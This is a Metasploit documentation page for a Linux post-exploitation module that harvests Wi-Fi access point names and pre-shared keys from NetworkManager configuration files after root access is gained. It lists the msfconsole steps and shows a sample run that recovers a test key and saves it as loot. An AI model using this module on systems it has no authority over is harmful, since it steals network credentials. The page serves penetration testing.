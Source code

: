 ## Vulnerable Application

This module collects 802-11-Wireless-Security credentials such as
Access-Point name and Pre-Shared-Key from Linux NetworkManager
connection configuration files.


## Verification Steps

1. Start msfconsole
1. Get a `root` session
1. Do: `use post/linux/gather/enum_psk`
1. Do: `set session <session ID>`
1. Do: `run`
1. You should receive credentails for wireless connections


## Options

### DIR

The path for NetworkManager configuration files (default: `/etc/NetworkManager/system-connections/`)


## Scenarios

### Ubuntu 22.04.1 (x86_64)

```
msf > use post/linux/gather/enum_psk 
msf post(linux/gather/enum_psk) > set session 1
session => 1
msf post(linux/gather/enum_psk) > run

[*] Reading file /etc/NetworkManager/system-connections//Profile 1.nmconnection
[*] Reading file /etc/NetworkManager/system-connections//test

802-11-wireless-security
========================

 AccessPoint-Name  PSK
 ----------------  ---
 test              1234567890

[+] Credentials stored in: /root/.msf4/loot/20221120081233_default_192.168.200.204_linux.psk.creds_045512.txt
[*] Post module execution completed
msf post(linux/gather/enum_psk) > 
```
